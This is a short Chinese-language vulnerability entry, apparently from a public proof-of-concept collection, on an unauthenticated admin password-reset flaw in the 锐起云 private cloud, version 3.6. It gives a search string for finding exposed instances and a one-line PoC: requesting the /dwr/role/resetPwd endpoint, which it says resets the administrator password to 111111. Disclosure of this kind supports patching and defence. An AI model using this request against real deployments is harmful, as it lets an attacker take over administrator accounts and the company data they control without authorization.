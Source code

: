 # 锐起云 resetPwd 登陆绕过漏洞

# 锐起云 resetPwd 登陆绕过漏洞

## 漏洞描述

锐起云是一款企业私有云，旨在帮助企业建立私有云存储和管理系统，帮助企业实现集中管理文档、强化数据安全、打造信息互通、数据驱动的协同办公环境。提升工作效率的同时，使数据真正为企业掌控，全程不改变用户操作习惯，是全新一代企业云盘的代表。锐起云存在前台未授权修改密码登陆后台漏洞，攻击者可以通过访问特定接口重置管理员密码。

## 漏洞影响

锐起云 v3.6

## 网络测绘

```
"锐起云"
```

## 漏洞复现

登录页面

![image-20231115100316838](images/image-20231115100316838.png)

poc，将密码重置为111111

```
/dwr/role/resetPwd
```

![image-20231115100422870](images/image-20231115100422870.png)

